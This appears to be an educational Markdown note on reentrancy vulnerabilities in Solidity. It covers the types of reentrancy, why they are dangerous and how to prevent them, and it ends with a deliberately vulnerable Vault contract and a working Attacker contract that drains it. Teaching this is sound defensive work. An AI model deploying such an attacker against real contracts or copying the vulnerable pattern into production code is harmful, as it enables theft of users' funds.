 ## Re‑entrancy in Smart Contracts

### What is Re‑entrancy

- A vulnerability where a contract that makes an external call to another contract/EOA can be reentered, before its state is fully updated.  [oai_citation:0‡QuickNode](https://www.quicknode.com/guides/ethereum-development/smart-contracts/a-broad-overview-of-reentrancy-attacks-in-solidity-contracts?utm_source=chatgpt.com)
- If contracts update state **after** external calls, attacker can exploit by calling back into the vulnerable function (or other functions sharing state) from the external contract.  [oai_citation:1‡docs.soliditylang.org](https://docs.soliditylang.org/en/latest/security-considerations.html?utm_source=chatgpt.com)

---

### Types of Re‑entrancy

| Type | Description |
|---|-------------|
| Single‑function reentrancy | A function calls external code and is reentered before finishing its own state updates.  [oai_citation:2‡Cyfrin](https://www.cyfrin.io/blog/what-is-a-reentrancy-attack-solidity-smart-contracts?utm_source=chatgpt.com) |
| Cross‑function reentrancy | One function's external call leads to reentry into another function sharing mutable state.  [oai_citation:3‡Cyfrin](https://www.cyfrin.io/blog/what-is-a-reentrancy-attack-solidity-smart-contracts?utm_source=chatgpt.com) |
| Cross‑contract reentrancy | Multiple contracts interacting: an external contract is called, and that contract calls back into original.  [oai_citation:4‡QuickNode](https://www.quicknode.com/guides/ethereum-development/smart-contracts/a-broad-overview-of-reentrancy-attacks-in-solidity-contracts?utm_source=chatgpt.com) |

---

### Why It’s Dangerous

- Funds can be drained by repeated withdrawal before the state is updated.  [oai_citation:5‡QuickNode](https://www.quicknode.com/guides/ethereum-development/smart-contracts/a-broad-overview-of-reentrancy-attacks-in-solidity-contracts?utm_source=chatgpt.com)
- Unexpected state behavior, loss of invariants.  [oai_citation:6‡Cyfrin](https://www.cyfrin.io/blog/what-is-a-reentrancy-attack-solidity-smart-contracts?utm_source=chatgpt.com)
- Exploits often result in large financial losses. (e.g. The DAO)  [oai_citation:7‡QuickNode](https://www.quicknode.com/guides/ethereum-development/smart-contracts/a-broad-overview-of-reentrancy-attacks-in-solidity-contracts?utm_source=chatgpt.com)

---

### Common Prevention Techniques

1. **Checks‑Effects‑Interactions (CEI) Pattern**
    - Do all `require` / validate inputs first.
    - Update state variables **before** any external calls.
    - Then do external calls.  [oai_citation:8‡docs.soliditylang.org](https://docs.soliditylang.org/en/latest/security-considerations.html?utm_source=chatgpt.com)

2. **Reentrancy Guard / Mutex**
    - Use a lock boolean or OpenZeppelin’s `ReentrancyGuard` / `nonReentrant` modifier. Prevents nested calls.  [oai_citation:9‡Educative](https://www.educative.io/answers/how-to-protect-against-a-reentrancy-attack-in-solidity?utm_source=chatgpt.com)

3. **Limit external calls and follow minimal interfaces**
    - Be cautious calling external contracts. Fallbacks / receive functions may reenter.  [oai_citation:10‡Cyfrin](https://www.cyfrin.io/blog/what-is-a-reentrancy-attack-solidity-smart-contracts?utm_source=chatgpt.com)

4. **Testing & Auditing**
    - Use tests with malicious contracts (simulated attacker) to try reentry.
    - Audits help catch incorrect ordering or missing guards.  [oai_citation:11‡hacken.io](https://hacken.io/discover/reentrancy-attacks/?utm_source=chatgpt.com)

---

### Example (Vulnerable vs Fixed)

```solidity
// Vulnerable
function withdraw(uint amount) external {
    require(balances[msg.sender] >= amount);
    // External call first → dangerous
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success);
    // State updated after external call → reentrancy risk
    balances[msg.sender] -= amount;
}

// Fixed
function withdraw(uint amount) external {
    require(balances[msg.sender] >= amount);
    balances[msg.sender] -= amount;              // Effects first
    (bool success, ) = msg.sender.call{value: amount}("");  // Interactions last
    require(success);
}
```



## Examples of Re‑entrancy Types

Here are code sketches for each type, showing how they can be implemented and exploited.

---

### 1. Single‑Function Re‑entrancy
One function is vulnerable: it makes an external call *before* updating its own state, allowing reentry into the same function.

```solidity
// SPDX‑License‑Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    mapping(address => uint) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint amount = balances[msg.sender];
        // External call first → vulnerable to reentrancy
        (bool success, ) = msg.sender.call{ value: amount }("");
        require(success, "Failed to send");
        // State update happens after external call → risk
        balances[msg.sender] = 0;
    }
}

contract Attacker {
    Vault public vault;

    constructor(address _vault) {
        vault = Vault(_vault);
    }

    // Fallback is triggered during external call
    fallback() external payable {
        if (address(vault).balance > 0) {
            vault.withdraw();
        }
    }

    function attack() external payable {
        vault.deposit{ value: msg.value }();
        vault.withdraw();
    }
}
```